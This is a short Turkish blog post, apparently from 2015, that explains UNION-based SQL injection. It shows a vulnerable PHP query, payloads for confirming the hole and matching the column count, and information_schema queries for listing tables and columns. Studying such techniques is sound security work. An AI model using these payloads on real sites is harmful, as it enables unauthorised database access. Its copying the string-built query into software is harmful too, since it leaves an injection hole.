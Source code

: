 ```yaml
---
ID: 239
post_title: Union SQL injection
author: farukcan
post_date: 2015-08-12 10:09:49
post_excerpt: ""
layout: post
permalink: >
  http://farukcan.net/genel/2015/08/union-sql-injection/
published: true
---
```

SQL injection açığı bulunan bir sitede , union komutu kullanılarak, diğer tablolardanda bilgi alma biçimidir.

sunucu tarafından şöyle bir açık olduğu varsayılsın
<pre>$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";</pre>
bu durumda
<pre>' OR true #</pre>
ile sql injection olduğundan emin olunur.
<pre>' UNION SELECT * FROM diger_tablo #</pre>
ile diğer tablolara erişibilir.

Fakat şöyle bir sorun çıkabilir : Tabloların kolon sayıların eşit olmaması.
<pre>' OR true UNION SELECT 1,2,3 #</pre>
Biçiminde tek tek deneyerek, mevcut tablonun kolon sayısını elde edebilirsiniz.
<h2>Not</h2>
Eğer tablo isimlerini ve kolonlarını öğrenmek isterseniz. Aşağıdaki sorgularla aynı yöntemi deneyebilirsiniz
<pre><code>select * from information_schema.`TABLES`</code></pre>
<pre><code>select TABLE_NAME from information_schema.`TABLES` </code></pre>
<pre><code>select TABLE_NAME,COLUMN_NAME from information_schema.`COLUMNS`</code></pre>